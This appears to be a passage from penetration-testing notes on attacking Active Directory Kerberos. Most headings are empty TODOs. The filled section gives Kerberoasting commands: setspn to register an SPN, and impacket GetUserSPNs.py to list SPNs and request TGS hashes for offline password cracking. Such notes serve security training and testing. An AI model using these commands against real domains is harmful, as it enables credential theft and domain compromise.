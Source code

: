 ## Kerberos and ACL

### Understanding Delegations

TODO

### Attacking Unconstraint Delegations

TODO

### Attacking Constraint Delegations

TODO

### Attacking Service Principal Names

TODO

### Attacking Service Accounts

TODO

### Targeted Kerberosting Attacks

#### ¿How to know if target is vulnerable?

To make a machine vulnerable to  `Kerberoasting`, we will use the following command:

```powershell
setspn -a domain.local/user.DC1 domain.local/user
```

#### List Vulnerable Machines

Having valid credentials for the AD. We can list the vulnerable machines on the domain, with a tool of the `impacket` suite, using the following command:

```bash
GetUserSPNs.py domain.local/user:password
```

#### TGS

Once we have checked that the credentials are valid, we can use the `GetUserSPNs.py` tool with the `request` flag to request a `TGS` (Ticket Granting Service) to the `DC`:

```bash
GetUserSPNs.py domain.local/user:password -request
```

This will ask to the `DC` a `TGS`and will display it as a hash. At this point, we will crack the hash offline to obtain the password. In case of obtaining the password we will have all the machine of the domain `(Pwn3d!)` in `CME`.

##### Rubeus
